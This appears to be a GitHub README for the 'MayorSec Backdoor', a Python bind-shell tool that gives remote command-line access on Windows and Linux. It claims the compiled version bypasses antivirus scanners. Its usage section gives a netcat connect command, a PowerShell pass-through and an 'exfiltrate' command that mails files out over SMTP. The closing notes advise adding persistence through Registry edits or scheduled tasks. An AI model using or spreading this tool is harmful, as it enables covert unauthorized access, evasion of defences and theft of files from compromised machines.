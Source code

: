 # MayorSec Backdoor
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)
### Fully functioning bind-type backdoor
![Gatekeeper](/images/backdoorlite.png)

This backdoor is a fully functioning bind shell and lite version of my full functioning Gatekeeper tool. It can be ran with Python or compiled to an exe and has full functioning command line access with Windows and Linux.  When compiled it bypasses all Antivirus solutions on Antiscan.me.

## Usage
Connect using Netcat after changing the port value to whatever you wish (default is 8180)

```nc ipaddr port```

Once connected you can utilize commands as normal.  If you wish to use Powershell commands, make sure to lead with 

```powershell <command here>```

This will execute the command.  Note that some Powershell functionality may crash the Netcat session requiring a reconnect.  

## SMTP Exfiltration

```exfiltrate filename <sender_email> <sender_email_password> <receiver_email>

## Compilation
This tool can be ran on systems that have Python3 installed, or can be compiled to exe using Pyinstaller.  I recommend using the GUI version of Pyinstaller called "Auto Py to EXE" which allows for the easy addition of an exe icon for the application.  The included .exe is set to utilize port 8180.

## Notes
Windows will likely require a firewall rule in order to utilize this tool on machines with firewall enabled.  You can achieve persistence through typical manual Registry edits, scheduled tasks, etc. 
